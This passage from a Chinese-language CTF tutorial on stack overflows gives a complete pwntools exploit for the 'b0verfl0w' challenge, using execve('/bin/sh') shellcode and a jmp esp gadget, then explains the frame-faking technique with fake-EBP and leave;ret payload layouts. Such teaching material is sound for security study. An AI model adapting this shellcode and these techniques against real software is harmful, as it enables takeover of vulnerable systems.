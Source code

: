所以最后的 exp 如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

#### 例2-转移堆

待。

### 题目

- EkoPartyCTF 2016 fuckzing-exploit-200

## frame faking

正如这个技巧名字所说的那样，这个技巧就是构造一个虚假的栈帧来控制程序的执行流。

### 原理

概括地讲，我们在之前讲的栈溢出不外乎两种方式

- 控制程序 EIP
- 控制程序 EBP

其最终都是控制程序的执行流。在 frame faking 中，我们所利用的技巧便是同时控制 EBP 与 EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其 payload 如下

```
buffer padding|fake ebp|leave ret addr|
```

即我们利用栈溢出将栈上构造为如上格式。这里我们主要接下后面两个部分

- 函数的返回地址被我们覆盖为执行 leave ret 的地址，这就表明了函数在正常执行完自己的 leave ret 后，还会再次执行一次 leave ret。
- 其中 fake ebp 为我们构造的栈帧的基地址，需要注意的是这里是一个地址。一般来说我们构造的假的栈帧如下

```
fake ebp
|
v
ebp2|target function addr|leave ret addr|arg1|arg2
```

这里我们的 fake ebp 指向 ebp2，即它为 ebp2 所在的地址。通常来说，这里都是我们能够控制的可读的内容。
